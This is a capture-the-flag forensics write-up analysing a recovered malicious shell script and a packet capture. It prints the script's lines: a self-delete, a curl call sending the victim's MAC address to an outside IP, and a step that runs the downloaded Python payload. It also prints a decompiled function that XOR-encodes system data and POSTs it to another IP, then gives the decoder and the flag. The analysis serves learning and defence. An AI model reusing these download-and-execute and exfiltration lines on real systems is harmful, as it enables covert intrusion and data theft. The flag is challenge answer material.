

# malware/sneaky-script (forensics/rev)

Author: captainGeech

## Description

```
We recovered a malicious script from a victim environment. Can you figure out what it did, and if any sensitive information was exfiltrated? We were able to export some PCAP data from their environment as well.
```

Downloads: `files.zip`

## Analysis

`files.zip` contains a shell script and a pcap file:

```
$ unzip files.zip
Archive:  files.zip
  inflating: evidence.pcapng
  inflating: mal.sh
```

`mal.sh` is small but nasty. If you were to run it, the first line removes itself:

```sh
rm -f "${BASH_SOURCE[0]}"
```

then checks if `curl` and `python3` are in `$PATH`:

```sh
which python3 >/dev/null
if [[ $? -ne 0 ]]; then
    exit
fi

which curl >/dev/null
if [[ $? -ne 0 ]]; then
    exit
fi
```

grabs your mac address:

```sh
mac_addr=$(ip addr | grep 'state UP' -A1 | tail -n1 | awk '{print $2}')
```

makes a GET request to a system controlled by the attacker, which sends your mac address and downloads the response to `/tmp/.cacheimg`:

```sh
curl 54.80.43.46/images/banner.png?cache=$(base64 <<< $mac_addr) -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36" 2>/dev/null | base64 -d > /tmp/.cacheimg
```

and that response is runnable python code, because `mal.sh` executes it and then immediately deletes it:

```sh
python3 /tmp/.cacheimg
rm -f /tmp/.cacheimg
```

We need to find out what was downloaded to `/tmp/.cacheimg`, so open `evidence.pcapng` in wireshark and look for HTTP requests:



I extracted `cacheimg.b64` from the GET response, and `upload.b64` from the POST request.

```
$ cat cacheimg.b64 | base64 -d > cacheimg
$ file cacheimg
cacheimg: python 3.6 byte-compiled
```

It's python bytecode, which we can decode with `uncompyle6`:

```
$ mv cacheimg cacheimg.pyc
$ uncompyle6 cacheimg.pyc > cacheimg.py
```

`cacheimg.py` exfiltrates a bunch of data from the system and sends it to the attacker. This is the important part for learning how to decode the upload:

```python3
def send(data):
    c = http.client.HTTPConnection('34.207.187.90')
    p = json.dumps(data).encode()
    k = b'8675309'
    d = bytes([p[i] ^ k[(i % len(k))] for i in range(len(p))])
    c.request('POST', '/upload', base64.b64encode(d))
    x = c.getresponse()
```

It takes a json dump, xor's the json text with the key in `k`, base64 encodes it, and then sends the base64 as data through the POST request.

## Solution

We just have to reverse what `cacheimg.py` does: decode the base64, xor with the same key, and print the resulting json.

```python3
#!/usr/bin/env python3
import base64
f = open(f"upload.b64", 'r')
b64in = f.readlines()
p = base64.b64decode(b64in[0])
k = b'8675309'
d = bytes([p[i] ^ k[(i % len(k))] for i in range(len(p))])
print(d.decode())
```

```
$ ./decode_upload.py > upload.json
$ cat upload.json | jq . | grep 'dam{'
	    "FLAG": "dam{oh_n0_a1l_muh_k3y5_are_g0n3}",
```

The flag is:

```
dam{oh_n0_a1l_muh_k3y5_are_g0n3}
```

